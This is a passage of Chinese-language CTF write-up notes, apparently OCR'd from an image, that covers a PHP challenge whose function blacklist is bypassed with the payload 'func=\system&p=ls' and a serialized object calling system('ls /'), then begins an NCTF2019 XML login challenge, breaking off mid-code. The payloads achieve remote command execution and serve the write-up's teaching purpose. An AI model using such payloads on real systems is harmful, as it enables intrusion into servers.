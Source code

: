 ```php
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

既然是`数组比对`，那构造：
```
func=\system&p=ls
```

或者反序列化
```
<?php
 class Test {
        var $p = "ls /";
        var $func = "system";
}
echo serialize(new Test());
  
?>
```

---
# (x)[De1CTF 2019]SSRF Me

---
# [NCTF2019]Fake XML cookbook

网页源码读取：
```
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
```